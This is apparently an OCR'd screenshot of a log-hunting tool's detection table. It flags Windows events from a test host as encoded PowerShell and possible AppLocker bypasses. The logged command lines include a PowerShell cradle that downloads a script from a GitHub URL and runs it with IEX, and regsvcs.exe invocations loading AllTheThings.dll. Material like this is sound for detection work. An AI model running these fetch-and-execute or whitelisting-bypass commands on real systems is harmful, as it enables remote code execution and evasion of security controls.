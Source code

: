     │ 2019-07-29 21:33:23 │ 1  │ ‣ Encoded PowerShell Command             │ "MSEDGEWIN10"                  │ C:\Windows\System32\WindowsPowerShell\v1.0\powersh │ powershell -c "(New-Object Net.WebClient).Download │
    │                     │    │ Line                                     │                                │ ell.exe                                            │ File('https://raw.githubusercontent.com/op7ic/EDR- │
    │                     │    │ ‣ Non Interactive PowerShell             │                                │                                                    │ Testing-Script/master/Payloads/CradleTest.txt','De │
    │                     │    │                                          │                                │                                                    │ fault_File_Path.ps1');IEX((-Join([IO.File]::ReadAl │
    │                     │    │                                          │                                │                                                    │ lBytes('Default_File_Path.ps1')|ForEach-Object{[Ch │
    │                     │    │                                          │                                │                                                    │ ar]$_})))"                                         │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-07-29 21:33:28 │ 1  │ ‣ Possible Applocker Bypass              │ "MSEDGEWIN10"                  │ C:\Windows\System32\cmd.exe                        │ cmd /c C:\Windows\Microsoft.NET\Framework\v4.0.303 │
    │                     │    │                                          │                                │                                                    │ 19\regsvcs.exe AllTheThings.dll                    │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-07-29 21:33:28 │ 1  │ ‣ Possible Applocker Bypass              │ "MSEDGEWIN10"                  │ C:\Windows\System32\cmd.exe                        │ cmd /c C:\Windows\Microsoft.NET\Framework\v2.0.507 │
    │                     │    │                                          │                                │                                                    │ 27\regsvcs.exe AllTheThings.dll                    │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-07-29 21:33:29 │ 1  │ ‣ Possible Applocker Bypass              │ "MSEDGEWIN10"                  │ C:\Windows\Microsoft.NET\Framework\v4.0.30319\RegS │ C:\Windows\Microsoft.NET\Framework\v4.0.30319\regs │
    │                     │    │                                          │                                │ vcs.exe                                            │ vcs.exe AllTheThings.dll                           │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-07-29 21:33:29 │ 1  │ ‣ Possible Applocker Bypass              │ "MSEDGEWIN10"                  │ C:\Windows\System32\cmd.exe                        │ cmd /c C:\Windows\Microsoft.NET\Framework64\v2.0.5 │
    │                     │    │                                          │                                │                                                    │ 0727\regsvcs.exe AllTheThings.dll                  │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-07-29 21:33:29 │ 1  │ ‣ Possible Applocker Bypass              │ "MSEDGEWIN10"                  │ C:\Windows\System32\cmd.exe                        │ cmd /c C:\Windows\Microsoft.NET\Framework64\v4.0.3 │
    │                     │    │                                          │                                │                                                    │ 0319\regsvcs.exe AllTheThings.dll                  │